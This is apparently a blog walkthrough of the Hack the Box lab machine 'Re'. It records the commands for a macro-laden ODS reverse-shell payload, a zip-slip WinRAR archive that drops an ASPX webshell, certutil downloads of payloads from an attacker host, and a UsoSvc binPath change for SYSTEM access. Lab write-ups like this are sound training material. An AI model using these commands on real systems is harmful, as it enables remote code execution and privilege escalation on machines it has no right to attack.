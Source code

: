 +++
author = "Nick"
categories = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
date = 2020-02-01T11:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/re.png"
slug = "hack-the-box-re"
summary = "Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!"
tags = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
title = "Hack the Box - Re"

+++


Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!

We start with our normal ```nmap``` scan: ```nmap -sC -sV -oA re_initial 10.10.10.144```. We get back a small listing of results:

```
Nmap scan report for 10.10.10.144
Host is up (0.053s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Visit reblog.htb
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 48s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-10-22T19:52:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.32 seconds
```

We see there is a hostname leaked to us on port 80. We'll add that to our host lists. The port amount are fairly limited so we'll repeat the scan but against all ports. Meanwhile, we'll visit port 80 and see what is being hosted.

When we get to the site, we are immediatly redirected to reblog.htb. When we start to investigate the site we see it's a standard blog. We see that re.htb is listed on the bottom so we'll add that to our host file as well. Each posting is listed by date. So we'll start to enumerate this by year in addition to our normal enumeration process. 

We start with enumerating the year:
```gobuster dir -u http://reblog.htb -w /usr/share/wordlists/SecLists/Fuzzing/4-digits-0000-9999.txt```
We only got back 2019 as a directory. 

Next we'll enumerate the month:
```gobuster dir -u http://reblog.htb/2019/ -w ~/Documents/htb/re/0-99.txt```
Only 03 and 04 are months with entries.

Now the days of each month:
03 contained 4 total entries: 10, 15, 20, 31.
04 contained 2 total entries: 10, 4.

Now we could have done that entire process with ```wfuzz``` or a single listing with recurssion, but I'll leave that up to you :). The above match the amount of posts entered so there was no hidden posts. In addition to this we'll also do a standard enumeration pass with a common directories list:
```gobuster dir -u http://reblog.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 40```.
We see one additional directory called ```assets``` but nothing further. We might need to come back and run a second pass. While we read through the blog we also gain three usernames - Coby, Kenny and Malware. Maybe we can use these usernames to null past the SMB login.

We will try to use ```smbmap``` to take a peek:
```smbmap -u kenny -p 'null' -H 10.10.10.144```

We get back one location.

![](/images/2019/10/image-93.png)

When we connect to the location we see there is nothing there. We can however upload files to the location but they are removed / deleted shortly after. Now the first post on the reblog talks about ods Phishing Attempts. That there are rules in place to analyze phishing files that we put to in the malware drop box. We might want to try uploading a hidden payload into an [ODS file](https://fileinfo.com/extension/ods) (Open Office Document Spreadsheet) and upload it to the dropbox.

We will create a payload using ```Metasploit```. There is a ncie little blog post over on Rapid 7's blog on this topic. You can find it [here](https://blog.rapid7.com/2017/03/08/attacking-microsoft-office-openoffice-with-metasploit-macro-exploits/).

![](/images/2019/10/image-94.png)

After we've crafted the payload and upload it to the share, we don't seem to get any connection back. Now we know from reading the blog post that the yara rules will detect any 'run of the mill' things. I would consider a pre-made MSF payload to be pretty run of the mill. So we can craft our own payload. 

The idea is to use the above created .ods file and enter our own shell code inside it. We know it's a Windows machine so it won't have netcat on it, so we'll need to get it. We need a way to download netcat onto the machine. Then we need to have the payload execute our commands.

So first we'll changed the .ods extension to a .zip and extract the contents. We then dig into the directory created to get to the file called Module1.xml: ```/msf/Basic/Standard/Module1.xml```. We then need to modify the ```Sub OnLoad``` function to execute our code rather than the Metasploit code.

![](/images/2019/10/image-95.png)

We then upload the file to the malware share and wait..

![](/images/2019/11/image-63.png)

Our listener lights up and we have a shell! We snag our user flag from Luke's Desktop and start to enumerate internally. In the Luke's Downloads folder we see a few installers:

![](/images/2019/12/image.png)

What immediately stands out is WinRar. [This CVE](https://nvd.nist.gov/vuln/detail/CVE-2018-20250) came to mind almost immediately since I've seen it in the past. If you've not seen it before some quick googling of 'CVE + WinRar' would turn up this result as well. Since we already know this has a high likleyhood of being our next entry point, we can jump over to [Evil-WinRAR](https://github.com/manulqwerty/Evil-WinRAR-Gen). The trick here is to get the file to execute as our admin. Some basic internal enumeration shows us that we have ```IIS``` installed. We can combine that with the knowledge of the ```proj_drop``` folder to get us an executable location. With this knowledge we can craft a webshell payload and leverage that to pivot.

First we have to craft our payload. We'll use ```MSFPC``` or the traditional ```MSFVenom``` whichever you'd like.

```msfpc aspx tun0 4444```

![](/images/2019/12/mfspc.gif)

We then need to add this payload to a zip file with a traveral path.

```zip rf.zip ../../../../../../../../inetpub/wwwroot/blog/rf.aspx```
You'll need to create the path locally as well.

We're going assume that the site name is blog in this scenario and attempt to have the page extracted there.

Once we've created our zip we can use ```Evil-WinRAR``` to 'weaponize' it.

```python3 evilWinRAR.py -e rf.zip -g rf.txt -p 'c:\proj_drop\' -o rf.rar```

Once we've created our malicous payload we can download it with ```certutil.exe``` like before.

```certutil.exe -urlcache -split -f "http://10.10.15.177/rf.rar" C:\Users\luke\Documents\ods\rf.rar```

![](/images/2019/12/payloadup.gif)

Once we upload it we wait for our session to come back. The blog does note that it is restarted every 4 minutes if it doesn't seem to be working. Once our session lights up we have a shell as ISUR. We get our shell and see if we can snag some tokens with ```incognito```.

![](/images/2019/12/image-1.png" caption=")

We don't seem to have any that we can take. But our enumeration shows that we have ```Sysinternals``` installed. We can use ```accesschk``` to see what permissions we might have. We see that ```SERVICE``` has access to ```UsoSvc```.

![](/images/2019/12/image-2.png)

And we know that [UsoSvc is exploitable](https://www.atredis.com/blog/cve-2018-0952-privilege-escalation-vulnerability-in-windows-standard-collector-service). We can create a standard .exe MSF payload and upload it to a directory, then change our path for UsoSvc to it. We then restart the service and should get a shell back as system.

Create our payload:
```msfpc windows tun0 4444```

Upload our payload:
```certutil.exe -urlcache -split -f "http://10.10.15.177/foobar.exe" C:\temp\foobar.exe```

Change our Executable Path:
```sc config usosvc binPath="C:\temp\foobar.exe"```

Restart our service:
```sc stop usosvc```
```sc start usosvc```

We then see our new session light up as system!

![](/images/2019/12/image-4.png)

We head to the Administrator desktop and grab our root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

